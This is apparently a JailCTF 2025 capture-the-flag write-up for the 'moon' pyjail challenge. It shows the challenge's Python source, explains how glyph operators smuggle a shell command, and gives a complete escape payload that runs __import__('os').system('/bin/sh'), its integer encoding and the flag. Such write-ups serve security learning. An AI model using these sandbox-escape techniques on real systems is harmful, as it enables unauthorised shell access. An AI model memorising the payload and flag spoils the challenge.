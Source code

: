 ```yaml
---
layout: writeup
parent: JailCTF 2025
tags: ["moon", "pyjail"]
---
```

```
glyph-based language that transpiles to python (for now…)
```
main.py:
```python
#!/usr/local/bin/python3
import os
import tempfile

inp = [int(n_str) for n_str in input('moon input > ').split()]

if not all(n > 255 for n in inp):
    print('bad input')
    exit()

with tempfile.NamedTemporaryFile(mode='w', suffix='.☾', delete_on_close=False) as f:
    f.write('print("loaded");' + ''.join([chr(n) for n in inp]))
    f.close()
    print('loading')
    os.system(f'☾ {f.name}')
    print('done')
```

## ☾?
The core of this challenge was finding a payload that entirely consisted of ASCII characters codes > 255.

## Method
Since ☾ transpiles to Python, we can pretty much use anything in Python in ☾. Using this, the core of the exploit is running `__import__('os').system('/bin/sh')` in a fancy way:

1. We need a way to execute code ourselves which by looking into the [moon docs](https://moon-docs.netlify.app/) we are given 󱠨 which can exec ☾ code at runtime (pretty much Python's `exec()`)
2. To encode the string, we can first use 󷸓 to subscript our Python payload and in our ☾ payload use 󷸼 to unscript it.
3. We can then use magic strings (which are pretty much equivalent to format strings in Python) to formulate our final payload

One final thing to note is that to call functions without parentheses (which are not allowed) we can use ∘ which calls the function with one argument

## Payload

### in ☾
󱠨∘‹⟦󷸼∘‹􋕞􋕞ᵢₘₚ󰂼ᵣₜ􋕞􋕞₍􋕦󰂼ₛ􋕦₎􋕜ₛₛₜₑₘ₍􋕦􋑫ᵢₙ􋑫ₛₕ􋕦₎›⟧›

### challenge submission (integer ascii codes)
![da moooon](/files/overdamoon.png)
```
989224 8728 8249 10214 1015356 8728 8249 1095006 1095006 7522 8344 8346 983228 7523 8348 1095006 1095006 8333 1095014 983228 8347 1095014 8334 1095004 8347 59411 8347 8348 8337 8344 8333 1095014 1094763 59397 7522 8345 1094763 8347 8341 1095014 8334 8250 10215 8250
```

`jail{welcome_to_spaghetti_code_convention_2025_57287fc685d9894e1}`



